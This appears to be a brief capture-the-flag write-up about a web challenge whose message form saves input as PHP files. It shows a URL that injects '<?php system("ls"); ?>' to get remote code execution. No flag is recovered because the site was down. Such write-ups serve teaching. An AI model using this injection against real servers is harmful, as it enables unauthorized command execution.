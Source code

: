 # Feb. 9 - Music
> Look at this neat website I found! It's not complete yet, but when it is, it will give you personlized music recommendations like you've never seen before! I think you should check it out. I left a Valentine as a message on the website 😁

## About the Challenge
We have been given a website and we need to find the flag from it (Because of the website is down all the time, i can't provide you any screenshot for this chall)

## How to Solve?
If we check the website, there is a form and if we submit the form there is a new endpoint like this
```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=Test
```
And then 1-2 seconds, we will be redirected to a PHP file that the output of our input. The endpoint will look like this.
```
https://music-mhsctf.0xmmalik.repl.co/message/dzwdu6599.php
```

So, we can doing RCE (Remote Code Execution) by submitting PHP syntax like this

```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=<?php system("ls"); ?>
```
And we will got the flag by checking the index file

```
NO FLAG BECAUSE THE WEBSITE IS DOWN
```
